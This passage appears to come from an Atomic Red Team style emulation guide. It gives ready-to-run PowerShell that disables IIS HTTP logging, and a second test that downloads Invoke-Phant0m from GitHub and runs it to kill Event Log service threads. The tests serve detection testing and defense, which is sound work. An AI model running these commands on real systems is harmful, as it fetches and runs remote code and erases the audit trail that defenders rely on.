 Disables HTTP logging on a Windows IIS web server as seen by Threat Group 3390 (Bronze Union).
This action requires HTTP logging configurations in IIS to be unlocked.

Use the cleanup commands to restore some default auditpol settings (your original settings will be lost)

**Supported Platforms:** Windows

**auto_generated_guid:** a957fb0f-1e85-49b2-a211-413366784b1e

#### Inputs:

| Name         | Description                         | Type   | Default Value    |
| ------------ | ----------------------------------- | ------ | ---------------- |
| website_name | The name of the website on a server | string | Default Web Site |

#### Attack Commands: Run with `powershell`!

```powershell
set-WebConfigurationProperty -PSPath "IIS:\Sites\#{website_name}\" -filter "system.webServer/httpLogging" -name dontLog -value $true
```

#### Cleanup Commands:

```powershell
if(Test-Path "C:\Windows\System32\inetsrv\appcmd.exe"){
  C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:false *>$null
}
```

<br/>
<br/>

## Atomic Test #3 - Kill Event Log Service Threads

Kill Windows Event Log Service Threads using Invoke-Phant0m. WARNING you will need to restart PC to return to normal state with Log Service. https://artofpwn.com/phant0m-killing-windows-event-log.html

**Supported Platforms:** Windows

**auto_generated_guid:** 41ac52ba-5d5e-40c0-b267-573ed90489bd

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
$url = "https://raw.githubusercontent.com/hlldz/Invoke-Phant0m/f1396c411a867e1b471ef80c5c534466103440e0/Invoke-Phant0m.ps1"
$output = "$env:TEMP\Invoke-Phant0m.ps1"
$wc = New-Object System.Net.WebClient
$wc.DownloadFile($url, $output)
cd $env:TEMP
Import-Module .\Invoke-Phant0m.ps1
Invoke-Phant0m
```
